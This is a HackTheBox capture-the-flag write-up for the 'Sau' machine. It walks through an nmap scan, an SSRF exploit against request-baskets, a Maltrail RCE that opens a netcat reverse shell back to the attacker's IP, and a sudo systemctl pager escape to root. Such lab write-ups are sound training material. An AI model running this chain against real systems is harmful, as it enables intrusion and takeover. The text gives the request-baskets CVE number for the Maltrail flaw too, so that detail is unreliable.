 ```yaml
---
layout: post
title: "Sau writeup"
tags: ["Writeups", "HackTheBox", "CTF", "Request-Baskets-1.2.1", "CVE-2023-27163", "SSRF", "Maltrail-0.53", "RCE", "Spawn-Shell-Systemctl-Pager"]
author: 0xfederico
meta: "This box starts with a site that hosts request-baskets at version 1.2.1 which is vulnerable to CVE-2023-27163 (SSRF). After exploiting the vulnerability I access hidden resources on other ports and find Maltrain at version 0.53 which is vulnerable to CVE-2023-27163 (RCE). I can exploit this vulnerability and become the user. To become root just look at what you can do with sudo and take advantage of systemctl's default pager"
---
```


# INDEX
- [Enumeration](#enumeration)
- [Privesc puma](#privesc-puma)

<br><br>

![Sau box HTB](/assets/images/machines/Sau/Sau.png)

## Enumeration

- `nmap -A -p- -T4 10.10.11.224`
    ```
    PORT      STATE    SERVICE VERSION
    22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
    |   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
    |_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
    80/tcp    filtered http
    8338/tcp  filtered unknown
    55555/tcp open     unknown
    | fingerprint-strings: 
    |   FourOhFourRequest: 
    |     HTTP/1.0 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     X-Content-Type-Options: nosniff
    |     Date: Sun, 30 Jul 2023 20:04:04 GMT
    |     Content-Length: 75
    |     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
    |   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
    |     HTTP/1.1 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     Connection: close
    |     Request
    |   GetRequest: 
    |     HTTP/1.0 302 Found
    |     Content-Type: text/html; charset=utf-8
    |     Location: /web
    |     Date: Sun, 30 Jul 2023 20:03:38 GMT
    |     Content-Length: 27
    |     href="/web">Found</a>.
    |   HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Allow: GET, OPTIONS
    |     Date: Sun, 30 Jul 2023 20:03:38 GMT
    |_    Content-Length: 0
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port55555-TCP:V=7.93%I=7%D=7/30%Time=64C6C21A%P=x86_64-pc-linux-gnu%r(G
    SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
    SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sun,\x2030\x20Jul\x20
    SF:2023\x2020:03:38\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
    SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
    SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
    SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
    SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sun,\x2030\x20Jul\x20
    SF:2023\x2020:03:38\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
    SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
    SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
    SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
    SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
    SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
    SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
    SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
    SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
    SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
    SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
    SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
    SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
    SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
    SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
    SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
    SF::\x20nosniff\r\nDate:\x20Sun,\x2030\x20Jul\x202023\x2020:04:04\x20GMT\r
    SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
    SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
    SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
    SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
    SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
    SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
    SF:se\r\n\r\n400\x20Bad\x20Request");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```

- by opening the site [http://10.10.11.224:55555/web](http://10.10.11.224:55555/web) I see that it hosts request-baskets at version 1.2.1 which is vulnerable to CVE-2023-27163. The exploit for this SSRF is [https://github.com/entr0pie/CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)

    I use the exploit to access local resources listed by nmap through the proxy offered by `request-baskets`:

    - `./CVE-2023-27163.sh "http://10.10.11.224:55555" "http://127.0.0.1:8338"`

    - `./CVE-2023-27163.sh "http://10.10.11.224:55555" "http://127.0.0.1:80"`

    _NOTE: for the exploit to actually work you need to visit/query the URL that `request-baskets` returns (ex: http://10.10.11.224:55555/sflzwb)_

- by opening the URL from the browser in both cases `Maltrail` version 0.53 is hosted, in the first case it seems not to work due to the broken CSS while in the second case you see the login screen. This specific version is vulnerable to CVE-2023-27163. The exploit for this Unauthenticated RCE is: https://github.com/spookier/Maltrail-v0.53-Exploit

    - I listen with netcat on port 4444: `nc -lnvp 4444`

    - `python3 exploit.py $(ifconfig tun0 | grep inet | head -n 1 | awk '{ print $2 }') 4444 http://10.10.11.224:55555/sflzwb/login`
        
    bingo! I got reverse shell as user

<br><br>

## Privesc puma

- I get a better shell with:
    ```bash
    python -c ‘import pty; pty.spawn(“/bin/bash”)’
    ```

- `sudo -l`
    ```
    Matching Defaults entries for puma on sau:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User puma may run the following commands on sau:
        (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
    ```

    I can become root very simply via: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/#spawn-shell-in-the-pager
    
    another reference: https://gtfobins.github.io/gtfobins/systemctl/

    ```
    !sh
    ```
    
    so if I can run `systemctl status foo` as root I can spawn another shell in it as root!

    _NOTE: It's exactly the same for `vim`: https://gtfobins.github.io/gtfobins/vim/_